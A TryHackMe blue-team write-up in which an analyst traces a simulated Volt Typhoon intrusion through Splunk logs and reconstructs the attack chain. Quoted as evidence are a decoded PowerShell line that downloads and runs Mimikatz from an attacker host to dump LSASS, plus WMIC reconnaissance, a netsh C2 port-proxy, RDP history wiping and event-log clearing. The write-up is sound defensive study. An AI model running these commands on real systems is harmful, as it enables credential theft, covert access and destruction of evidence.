# Volt Typhoon Writeup

**Machine Name:** Volt Typhoon  
**Platform:** TryHackMe  
**Difficulty:** Medium

---

## Introduction

This write-up covers my run through Volt Typhoon on TryHackMe, a blue-team room built around a suspected nation-state intrusion. Volt Typhoon is a real, publicly documented state-sponsored threat actor known for living off the land: instead of dropping custom malware, it leans on built-in Windows tools like WMIC, ntdsutil, netsh, and PowerShell to blend in with normal administrative traffic. What struck me going through this room is how little of it needed anything exotic. Almost every step used a tool that's already sitting on a default Windows install, which says a lot about why this kind of intrusion is so hard to catch in the first place. The setup: I'm playing a SOC analyst who has been handed two weeks of logs and asked to retrace exactly how the attacker got in, what they took, and how they tried to cover their tracks. Everything below comes from working through those logs in Splunk, organised along the same attack-lifecycle stages the room follows.

## Initial Access

### Phase 1

_Objective: find out when the attacker first took over a legitimate account._

Since the room points at ADSelfService Plus (a self-service password reset portal) as the entry point, filtering on the account name `dean-admin` together with a password-change keyword narrows the noise down fast.



_Filtering on the account name and a password-change keyword to isolate the takeover event._



_Two password-change attempts for the same account: one failed, one completed._

> **Key Finding:** `2024-03-24T11:10:22`. That's the moment the attacker reset Dean's password through ADSelfService Plus and took the account over. It's also the earliest timestamp in the whole case; everything else in this write-up happens after it.

### Phase 2

_Objective: find the new admin account the attacker created once inside._

Staying on `dean-admin` as the filter and adding a keyword for account creation turns up the next move.



_Same account, this time filtered for creation activity._



_The new account, created barely a minute after the password reset, with the password sitting in plain text on the command line._

> **Key Artifact:** `voltyp-admin`. A brand-new local administrator account, created through the hijacked `dean-admin` session with a hardcoded plaintext password baked right into the process command line. Looks like a backup foothold, in case Dean's account got noticed and locked down.

## Execution

### Phase 1

_Objective: recover the reconnaissance command the attacker ran against the two staging servers._

With two server names already in play, searching for both of them together isolates the exact command.



_Filtering on both hostnames at once._



_A single WMIC call querying disk information on both machines remotely._

> **Key Artifact:** `wmic /node:server01, server02 logicaldisk get caption, filesystem, freespace, size, volumename`. Standard drive-enumeration syntax, but run remotely against two hosts at once through WMIC. The attacker was mapping out available storage before deciding what to steal.

### Phase 2

_Objective: recover the password set on the compressed copy of the Active Directory database._

Archive tools set a password with the `-p` flag, so that's the filter.



_A narrow filter on the flag used to password-protect an archive._



_The compression command, password and all, dropped straight into the public web root._

> **Key Artifact:** `d5ag0nm@5t3r`. The password on `cisco-up.7z`, a 7-Zip archive built from the dumped AD database and staged inside `C:\inetpub\wwwroot` on webserver-01. Already sitting in a spot reachable from outside the network, ready to be pulled out.

## Persistence

_Objective: find where the attacker staged the tools and web shell used to keep access to the compromised host._

Searching for `mkdir` alongside the `dean-admin` account surfaces the directory the attacker built out for the intrusion.



_Filtering for directory-creation activity under the compromised account._



_The staging folder being created, immediately followed by the ntdsutil database dump into it._

> **Key Artifact:** `C:\Windows\Temp\`. This became the attacker's working directory for the rest of the intrusion. It's used here to stage the NTDS.dit dump, and it turns up again later (see Discovery & Lateral Movement) as the exact spot where the web shell `iisstart.aspx` was sitting too.

## Defense Evasion

### Phase 1

_Objective: identify the PowerShell cmdlet used to erase RDP connection history._

A simple `remove` keyword filter is enough to surface it.



_A broad filter on "remove" activity._



_The registry cmdlet used to strip the "Most Recently Used" RDP entry._

> **Key Artifact:** `Remove-ItemProperty`. Used against the `MRU0` registry value to erase the record of which machine was last accessed over RDP. A small, quiet detail, wiped before anyone would think to go looking for it.

### Phase 2

_Objective: find the disguised filename the attacker gave the stolen-data archive._

Filtering for the `create` keyword surfaces every file-manipulation event, including a rename.



_A broad filter for creation-related activity, wide enough to also catch renames._



_The archive being renamed with a `ren` command, right after the compression step from Execution Phase 2._

> **Key Finding:** `cl64.gif`. The `cisco-up.7z` archive, renamed with a fake `.gif` extension. On a casual directory listing it looks like a harmless image; it's really a password-protected database dump.

### Phase 3

_Objective: find the registry path the attacker checked to detect whether they were operating inside a virtual machine._

The full key starts with `HKEY`, so that's the search term.



_A direct filter on the registry hive prefix._



_The command, filtered further to only return properties with "Virtual" in the name._

> **Key Artifact:** `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control`. Queried and filtered for anything containing "Virtual", a classic sandbox-detection check run before the attacker committed to further action on the host.

## Credential Access

### Phase 1

_Objective: identify which installed software the attacker searched for stored credentials in._

A `reg` keyword filter catches every registry query the attacker ran.



_First hit: a query against PuTTY's saved session data._



_Second hit: RealVNC's server configuration._



_Third hit: OpenSSH's installation key._

> **Key Finding:** OpenSSH, putty, realvnc. Three pieces of remote-access software probed for cached credentials and saved sessions, exactly the kind of tooling that hands over a working set of logins if an admin has ever saved one.

### Phase 2

_Objective: decode the command the attacker used to download and run Mimikatz for credential dumping._

An `-e` filter catches the encoded PowerShell invocation.



_Filtering for the encoded-command flag._



_The `-enc` flag and its Base64 payload, sitting in the PowerShell pipeline log._

Feeding the payload into CyberChef with a single From Base64 step unpacks it straight into readable PowerShell.



_The decoded command: download, then execute, then dump LSASS memory._

> **Key Artifact:** `Invoke-WebRequest -Uri "http://voltyp.com/3/tlz/mimikatz.exe" -OutFile "C:\Temp\db2\mimikatz.exe"; Start-Process -FilePath "C:\Temp\db2\mimikatz.exe" -ArgumentList @("sekurlsa::minidump lsass.dmp", "exit") -NoNewWindow -Wait`. Mimikatz pulled down from attacker infrastructure and run straight through PowerShell to dump LSASS memory. That's the step that would hand over every credential cached on the box.

## Discovery & Lateral Movement

### Phase 1

_Objective: identify which Windows Event IDs the attacker specifically searched for while enumerating logon activity._

A `wevtutil` filter isolates every log-query command the attacker ran.



_A direct filter on the log-query utility itself._



_First query: successful logons (Event ID 4624)._



_Second query: failed logons (Event ID 4625)._



_Third query: Kerberos service-ticket requests (Event ID 4769)._

> **Key Finding:** 4624 4625 4769. The attacker wasn't guessing. They queried specifically for successful logons, failed logons, and Kerberos ticket requests: the three event types that show exactly who logged in where, and whether any accounts were being brute-forced along the way.

### Phase 2

_Objective: find the new web shell the attacker planted while moving to a second host._

Filtering on the second hostname plus a `copy` keyword surfaces the lateral-movement step.



_Filtering on the new host and file-copy activity._



_The original web shell being copied to a second server under a new name._

> **Key Artifact:** `AuditReport.jspx`. The same web shell from the Persistence stage (`iisstart.aspx`), copied over to `server-02` and renamed to blend in as an audit report. This is also the piece of evidence that shows where that first web shell had been sitting the whole time.

## Collection

_Objective: recover the three files the attacker copied out during the collection phase._

A `copy` keyword filter turns up every file-staging command in the dataset.



_A broad filter for copy activity across the whole index._



_First file: the 2024 finance backup._



_Second file: the 2023 finance backup._



_Third file: the 2022 finance backup._

> **Key Finding:** 2022.csv 2023.csv 2024.csv. Three years of financial records, pulled out of `C:\ProgramData\FinanceBackup` and staged into a temp directory. After all the credential theft and lateral movement, this is what the attacker was actually after.

## C2 & Cleanup

### Phase 1

_Objective: recover the address and port the attacker used to set up a proxy for command-and-control traffic._

A `netsh` filter finds the proxy-configuration command directly.



_A direct filter on the network-configuration utility._



_The port-proxy rule, run using the fully compromised dean-admin credentials right on the command line._

> **Key Artifact:** `10.2.30.1 8443`. A local port-forwarding rule, routing traffic out to that address and port. It turned the compromised server into a relay point for the attacker's external command-and-control channel.

### Phase 2

_Objective: identify the event log types the attacker wiped to erase evidence of the intrusion._

The same `wevtutil` tool used earlier for reconnaissance shows up again, this time for cleanup.



_Filtering once more on the log-query and log-clearing utility._



_The clear-log command, naming all four channels in one line._

> **Key Finding:** Application, Security, Setup, System. The four core Windows event log channels, wiped in a single `wevtutil cl` command. Same tool the attacker used earlier to hunt for logon evidence, now turned around to erase it.

## Reconstructed Attack Chain

Pulled together, the individual answers line up into one sequence:

1. The attacker reset `dean-admin`'s password through ADSelfService Plus, taking the account over at `2024-03-24T11:10:22`.
2. Within a minute, they used that access to create a new local administrator account, `voltyp-admin`, with a hardcoded plaintext password.
3. From there, they ran remote WMIC reconnaissance against `server01` and `server02` to map out available storage.
4. Using `ntdsutil`, they dumped the Active Directory database into a staging folder at `C:\Windows\Temp\`, compressed it into `cisco-up.7z` with the password `d5ag0nm@5t3r`, and dropped the archive into the public web root of webserver-01.
5. To blend in, they renamed the archive to `cl64.gif`, cleared their RDP history with `Remove-ItemProperty`, and checked the registry for signs they were inside a virtual machine before continuing.
6. They probed PuTTY, RealVNC, and OpenSSH registry keys for saved credentials, then downloaded and ran Mimikatz via an encoded PowerShell command to dump LSASS memory.
7. Using `wevtutil`, they enumerated successful logons, failed logons, and Kerberos ticket requests (Event IDs 4624, 4625, 4769) to map out account activity across the network.
8. They moved laterally to `server-02`, copying their web shell (`C:\Windows\Temp\iisstart.aspx`) over as `AuditReport.jspx`.
9. They located and copied out three years of financial records (`2022.csv`, `2023.csv`, and `2024.csv`) from a finance backup directory.
10. For command-and-control, they set up a `netsh` port-proxy rule routing traffic to `10.2.30.1:8443`.
11. Finally, they wiped their tracks by clearing the Application, Security, Setup, and System event logs with `wevtutil cl`, the same tool they had used earlier to hunt for logon evidence.

This write-up is part of my ongoing series documenting CTF challenges as I build my portfolio in cybersecurity. I approach each challenge from both offensive and defensive perspectives, because understanding both sides is what makes a well-rounded security professional.

If you're also on the journey toward a SOC or Security Engineering role, feel free to connect. I'm always happy to discuss techniques and share resources.
